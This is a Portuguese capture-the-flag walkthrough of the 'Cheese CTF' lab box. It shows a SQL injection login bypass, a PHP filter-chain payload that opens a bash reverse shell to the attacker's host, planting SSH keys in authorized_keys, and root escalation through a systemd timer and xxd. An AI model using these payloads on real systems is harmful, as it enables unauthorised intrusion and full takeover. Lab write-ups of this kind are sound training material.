 # _**Cheese CTF**_
![](cheese.jpg)

## _**Enumeração**_
Primeiro, vamos começar com um scan <mark>Nmap</mark>
> ```bash
> nmap -p 0-9999 -A -T5 [ip_address]
> ```
![](scan_nmap.jpg)
Vamos encontrar outra maneira de enumerar este endereço  
> ```bash
> nmap --open -sV -O [ip_address]
> ```
![](scan_nmap2.jpg)
Temos praticamente todas as portas com algum serviço!  
Não conseguiremos investigar tudo, então vamos procurar em algumas portas padrão como a 80  
Parece que temos um website  
Vamos tentar enumerar com <mark>Gobuster</mark>
> ```bash
> gobuster dir --url [ip_address] -w ../seclists/Discovery/Web-Content/common.txt
> ```
![](scan_gobuster.jpg)

Investigando o site também, parece que encontramos um link para uma página de login 

## _**Ganhando acesso**_

![](login_page.jpg)

Apesar de sabermos da página, não podemos realizar muito com ela sem pista de usuário ou até mesmo senha  
Investigando a maioria dos resultados HTTP, nada de útil foi encontrado  
Procurando algumas soluções, encontrei a dica de tentar <mark>SQL Injection</mark> por não ter usuário ou senha  
> ```bash
> ' || '1'='1';-- -
> ```
![](login_success.jpg)

Conseguimos entrar na página de administrador, vamos investigar  
O endereço URL parece responder a um _script .php_, vamos ver se retorna algum arquivo interessante  

![](script_return.jpg)

Temos retorno de _/etc/passwd_  
Após algum tempo tentando obter um shell através de LFI e também tentativas de RCE, conseguimos através da seguinte tentativa  
Primeiro, vamos criar nossa shell através do link:
> ```bash
> git clone https://github.com/synacktiv/php_filter_chain_generator.git && cd php_filter_chain_generator && clear && ls
> ```
Na descrição desse serviço, temos:  
_<mark>Uma CLI para gerar uma cadeia de filtros PHP, obtenha seu RCE sem fazer upload de um arquivo se você controlar inteiramente o parâmetro passado para um require ou include no PHP!</mark>_  
Em seguida, vamos utilizar o comando abaixo para gerar nosso _payload_  
> ```bash
> python3 php_filter_chain_generator.py --chain "<?php exec('/bin/bash -c \"bash -i >& /dev/tcp/[vpn_ip_address]/[port] 0>&1\"'); ?>" | grep "^php" > payload.txt
> ```

Agora, vamos utilizar de ```curl``` para conseguirmos obter um _shell_  
> ```bash
> curl "http://[ip_address]/secret-script.php?file=$(cat payload.txt)"
> ```
![](shell.jpg)

Vamos investigar _/home_ para ver o que encontramos  
Temos _user.txt_, mas sem permissões para ler seu conteúdo  

## _**Escalando privilégios**_
Primeiro, vamos buscar ```linpeas.sh``` via ```curl```
> ```bash
> curl http://[ip_address]:[port]/linpeas.sh -o /tmp/linpeas.sh
> ```
Em seguida, damos as permissões e executamos  
Após, vamos procurar uma maneira de conseguir escalar privilégios  
Encontramos o seguinte trecho

![](lin_ssh.jpg)

Vamos explorar!  
Primeiro, em nossa máquina, criamos uma achave _SSH_  
> ```bash
> ssh-keygen -t rsa
> ```
Siga as etapas de procedência  
Execute os dois comandos abaixo, o primeiro em sua máquina, o segundo na máquina alvo  
> ```bash
> cat [filename].pub
> echo 'cat [filename].pub result' >> /home/comte/.ssh/authorized_keys
> ```
Por fim, faça login como ```comte``` via SSH  
> ```bash
> ssh -i comte comte@[ip_address]
> ```
![](login_ssh.jpg)

Do resultado anterior de ```linpeas```, temos:  

![](exploit_time.jpg)

Podemos executar ```systemctl``` e modificar um arquivo chamado _exploit.timer_, que pode ser usado para executar um serviço de exploit  
Vamos alterar _/etc/systemd/system/exploit.timer_  

![](time_altered.jpg)

Ele irá disparar o xxd quando o executarmos  

![](gftobins.jpg)

De acordo a imagem acima, podemos obter privilégios de _root_ escrevendo a chave SSH que geramos com acesso ao binário xxd  
> ```bash
> sudo systemctl daemon-reload
> sudo /bin/systemctl start exploit.timer
> echo 'cat [filename].pub result' | xxd | /opt/xxd -r - "/root/.ssh/authorized_keys
> ```

Agora, emo nossa máquina, vamos realizar login novamente via SSH
> ```bash
> ssh -i comte root@[ip_address]
> ```
![](root.jpg)

Basta ir atrás das flags!
